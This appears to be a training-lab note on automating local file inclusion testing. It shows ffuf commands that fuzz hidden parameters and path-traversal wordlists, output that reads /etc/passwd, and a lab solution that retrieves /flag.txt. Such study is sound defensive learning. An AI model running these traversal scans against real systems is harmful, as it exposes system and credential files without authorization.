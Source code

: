 # 🍬 Automation and Prevention

It's important to always fuzz a web app beceause the page may have other exposed parameters that are **not linked to any HTML forms**, and hence normal users would never access or unintentionally cause harm through.

fuzz the page for common `GET` parameters ->

```
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287
```

And once we found a hidden param, we can do our LFI tests. A good wordlist is [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt), as it contains various bypasses and common files

```
ffuf -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287
```

With some output that would look like this:

```
..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../../../../../../../../etc/hosts [Status: 200, Size: 2461, Words: 636, Lines: 72]
...SNIP...
../../../../etc/passwd  [Status: 200, Size: 3661, Words: 645, Lines: 91]
```

We must also try and fuzz for `Server webroot path`, `server configurations file`, and `server logs`.

we can fuzz for the `index.php` file through common webroot paths, which we can find in this [wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) or this [wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt). Depending on our LFI situation, we may need to add a few back directories (e.g. `../../../../`), and then add our `index.php` afterwords.

```
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287
```

and the output would be something like:

```shell-session
/var/www/html/          [Status: 200, Size: 0, Words: 1, Lines: 1]
```

To find **server logs and configuration paths,** we can use this [wordlist for Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux) or this [wordlist for Windows](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows)

```shell-session
ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287
```

output:

```shell-session
<SNIP>
/etc/hosts              [Status: 200, Size: 2461, Words: 636, Lines: 72]
/etc/hostname           [Status: 200, Size: 2300, Words: 634, Lines: 66]
<SNIP>
```

{% hint style="info" %}
The most common LFI tools are [LFISuite](https://github.com/D35m0nd142/LFISuite), [LFiFreak](https://github.com/OsandaMalith/LFiFreak), and [liffy](https://github.com/mzfr/liffy).
{% endhint %}

_**Fuzz the web application for exposed parameters, then try to exploit it with one of the LFI wordlists to read /flag.txt**_

```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://94.237.53.113:55545/index.php?FUZZ=value' -fs 2309
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
ffuf -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://94.237.53.113:55545/index.php?view=FUZZ' -fs 1935
```

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p><a href="http://94.237.53.113:55545/index.php?view=../../../../../../../../../../../../../../../../../../../../../../flag.txt">http://94.237.53.113:55545/index.php?view=../../../../../../../../../../../../../../../../../../../../../../flag.txt</a></p></figcaption></figure>
